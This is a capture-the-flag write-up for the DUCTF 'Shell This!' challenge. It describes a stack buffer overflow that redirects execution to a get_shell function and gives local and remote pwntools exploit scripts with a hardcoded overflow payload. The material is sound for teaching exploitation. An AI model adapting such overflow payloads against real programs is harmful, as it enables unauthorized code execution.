 ### Pwn
========================================================================================
#### Shell This!
-----------------------------------------------------------------------------------------
 points 100
 
#### Description
*Author : Faith
*Somebody told me that this program is vulnerable to something called remote code execution?*
*I'm not entirely sure what that is, but could you please figure it out for me?*

*nc chal.duc.tf 30002*

*Attached files:*

	• shellthis.c (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)
  
	• shellthis (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)
 
First ran file, strings to examine the binary. From the code we can deduce that we have to do a buffer overflow attack to  execute get_shell() function.

![image](https://user-images.githubusercontent.com/45536407/94332318-352abe80-ffa2-11ea-8a71-076689e58477.png)

Since we have the binary we can do the attack on local machine first and then replicate it on server.For finding the NOPs I used cyclic utility.

![image](https://user-images.githubusercontent.com/45536407/94332328-496ebb80-ffa2-11ea-88be-6cf210088d6b.png)

![image](https://user-images.githubusercontent.com/45536407/94332332-512e6000-ffa2-11ea-8052-60c6d583d935.png)

local exploit : 
exploit.py
```
from pwn import *                                                                                                                                                    
proc = process('/home/kaliuser/Downloads/ductf/shellthis')                                                                                                                                   
elf = ELF('/home/kaliuser/Downloads/ductf/shellthis')                                                                                                                                        
shell_func = elf.symbols.get_shell                                                                                                                                       
                                                                                                                                                                     
#### this adds value of shell_func after 56 chars ####################                                                                                               
payload = fit({56: shell_func}) 
print(payload)
                                                                                                                                                                     
proc.sendline(payload)                                                                                                                                               
proc.interactive()    
```

From here we got the address of the function get_shell and we can use same payload remotely.

exploit_remote.py
```
from pwn import *     
conn = remote('chal.duc.tf',30002)
print(conn.recvline())
print( conn.recv())

payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa\xca\x06\x40\x00\n'
conn.send(payload)
conn.interactive()
```

Running the exploit and getting the flag:

![image](https://user-images.githubusercontent.com/45536407/94332394-d9ad0080-ffa2-11ea-8d4a-dd85df42f4c4.png)
